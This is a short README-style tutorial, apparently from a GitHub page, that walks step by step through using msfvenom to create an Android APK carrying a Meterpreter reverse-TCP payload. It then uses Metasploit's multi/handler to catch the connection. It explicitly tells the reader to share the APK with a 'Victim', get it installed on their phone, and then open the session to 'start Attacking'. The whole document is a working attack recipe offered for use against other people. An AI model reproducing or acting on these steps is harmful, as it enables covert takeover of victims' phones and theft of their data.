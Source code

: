 
### Step By Step Process To Create The Payload  :
**Run This command in Kali Terminal**
1. check The Kali Version
`uname -r`
2.  give Root permission
`sudo su ` 
enter Password and get Root permission
3. Now Check your IP Address (please Connect with internet before Run Commad )
`ip address`
4. open Second Terminal Run this Code 
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<your IP address> LPORT=<choose Any port Number Greater than 8500>> /home/kali/payload.apk`

you are created One Apk file with payload. Apk Path : Home>kali>payload.apk 

5. Now share This Apk To the Victim And Install On That mobile 
6. **Start Exploitation**
Run `msfconsole` and press Enter
Now wait for 1 min your Meta-sploit freamwork is Load
7. Run `use exploit/multi/handler` f
8. or Designing of Hacking
`set payload android/meterpreter/reverse_tcp`
Set Your IP and Victim Port
10. `set LHOST <Your ip Address>`
11. `set LPORT <your choosen Port >`

Now run This command for verify Both LHOST and LPORT  `show`

12. Now if your Payload not Working set EXit commad
13. Run `set ExitOnSession false`
  **NOW RUN PAYLOAD**
15. `exploit -j`
Now Your Payload is successfull Work in Background OF victims Android

Now When Victim Install This Apk ,,  Session automatically Start..

16. Run `sessions -i` and see the **ID** of Active Session (Example : 1 , 2, 3....)
17.  Now Run `sesssion -i <ID>`  and start Attacking
18. For performing Attack Run `help` and All commands you can Apply for Attack

**Thanks for Visiting @Yuvrajchauhan457  **










